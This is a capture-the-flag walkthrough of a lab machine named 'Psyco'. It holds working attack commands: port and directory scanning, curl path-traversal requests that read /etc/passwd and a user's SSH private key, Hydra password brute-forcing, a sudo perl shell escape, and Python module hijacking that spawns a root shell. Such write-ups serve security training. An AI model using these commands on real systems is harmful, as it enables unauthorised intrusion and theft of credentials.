




# Psyco

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page

We see that it appears to be a web page, however, I've noticed that at the bottom left there's an "ERROR" text along with a possible username "Luisillo"


Nevertheless, I'm going to do a more thorough enumeration by listing possible directories.


```ruby
gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -r -x php 
```


Apparently, there's nothing interesting except for an "index.php" file, so I'm going to try if I can find a path traversal that points to the /etc/passwd file

```ruby
sudo wfuzz -c --hl=62 -w SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd'
```

After waiting for a while, I found that it works for the word "secret"


Therefore, if we make a curl request adding secret, we can obtain the /etc/passwd file

```ruby
curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../etc/passwd"
```



We find several users vaxei and luisillo and try to figure out the password with the "Hydra" tool

```ruby
sudo hydra -l vaxei -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
```


However, we see that we don't find the password. Lastly, I'm going to try if I can point to another specific file /home/vaxei/.ssh/id_rsa to obtain the rsa key of some user, in this case vaxei

```ruby
curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../home/vaxei/.ssh/id_rsa"
```


Finally, we see how we can display the key to later use it to access through the ssh service.

## Intrusion

Using the following command, we can try to access the ssh service

```ruby
sudo ssh -i id_rsa vaxei@172.17.0.2
```
Once we have accessed, we're going to see if we can escalate privileges. For this, I'm going to use the following command:

```ruby
sudo -l
```

We obtain the following:


It can be seen that I can execute perl as the user luisillo, therefore using GTOBINS we can put the following command to use a bash.

```ruby
sudo -u luisillo perl -e 'exec "/bin/sh";'
```


In the same way, I'm going to check if I can continue escalating privileges towards the "root" user. For this, I execute the command sudo -l again 


It seems that I can execute a python file called "paw.py" as root, so I'm going to see what it contains.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()

```

It seems that when we execute it, it gives an error because it can't find the subprocess.py file.


We create the subprocess.py file with the following content to execute a bash:

```python
import os; os.system("/bin/sh")
```

Finally, we execute the command to escalate privileges as root:

```ruby
sudo -u root /usr/bin/python3 /opt/paw.py
```

